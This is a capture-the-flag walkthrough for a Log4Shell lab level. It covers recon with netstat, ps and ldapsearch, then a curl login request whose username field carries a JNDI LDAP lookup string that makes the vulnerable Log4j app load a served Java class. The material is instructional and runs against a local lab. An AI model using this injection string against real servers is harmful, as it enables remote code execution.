


# Level - 8 - Log4Shell

## Flag 1

The player will need to do some recon work to discover what services are running and what ports are listening.

```
netstat -an
```

```
ps -ef
```


Upon running these commands, the player should notice ports 8080, 3002, and 3389 listening. They'll also see in processes that tomcat, a python http service, and ldap are running.

Flag 1 is found using LDAP, so we'll focus on that service to begin with. The player can use ldapsearch to connect to the service and dig a bit. If they use a general search to pull all objectClasses, then the first flag will be revealed.

```
ldapsearch -H ldap://localhost:3389 -x "(objectClass=*)"
```



## Flag 2

Note that in the LDAP response there is another person object to keep in mind. The Wario object contains references to java classes and a url to one of the other HTTP services running on port 3002. The DN of this will come in handy later on.

Using curl, they can query the service on 3002. They'll see a directory listing where they can gain access to a java class. But, they won't be able to execute it due to the permissions it requires. This is actually the malicious payload they need the tomcat user to execute instead.

The player can also send a GET request to the tomcat service running on port 8080. They'll receive HTML back and need to gather that it's a login page for an employee portal.


If they attempt to login to the page using a curl POST request, they get a response that the login failed and that the request will be logged. This is a hint. Furthermore, if they list out their home directory they might notice a pom.xml file left behind. Upon looking into that file, they should notice that it's an application using a vulnerable version of Log4j. With this information (http, log4j, ldap), the player can attempt to use a crafted JNDI+LDAP request in the login form to attempt an exploit.

```
curl -X POST localhost:8080/login -d 'uname=${jndi:ldap://localhost:3389/cn=wario,ou=people,dc=bowsercorp,dc=party}'
```



A message is written to the console that mentions a file getting dropped in the /tmp directory. If the user checks, a new file there named accessgranted, which contains the flag.


